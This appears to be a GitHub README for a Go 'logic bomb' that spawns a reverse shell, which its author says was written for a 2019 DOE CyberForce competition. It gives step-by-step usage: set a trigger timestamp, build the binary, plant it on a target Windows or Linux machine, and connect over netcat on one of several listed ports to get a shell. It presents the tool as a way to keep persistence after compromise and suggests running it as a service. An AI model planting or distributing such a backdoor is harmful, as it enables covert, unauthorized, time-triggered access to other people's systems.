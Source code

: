 # logicbomb-reverse-shell
Author: Shail Patel

Description:

This is a GO-based logic-bomb script written by me for the DOE CyberForce competition 2019 to spawn a reverse shell by opening random network ports.

Usage:

1. Change the epoch timestamp in the script. Go to www.epochconverter.com and input the CORRECT execution time in your preferred local time/GMT and replace the epoch stamp by your newly created time----Line-->'if timeNow > newtime'. You can also slice up and change the portNos in this script differently and accoding to your desired usage.
2. Shoot up the terminal and 'go build logicbomb.go'
3. Place the created binary file into your desired target location path of windows/Linux.
In Linux,
4. Open up another terminal and "nc -l 'target_ip' 7864/7777/7783/8348/8677/8999". This will spawn a bash shell and you are in!
Check whoami, pwd, ls, ifconfig.

You can also bind this as a service file in order to avoid using '&' while building the file.

Note:
Initial Machine Access Required: yes

This shell should be used to maintain foothold/persistence or for post-exploitation once an attacker gains initial entry.

To Do:

Work more on a user based priviledge esclation technique.

If you have any questions, please email me
shail.patel@nrel.gov

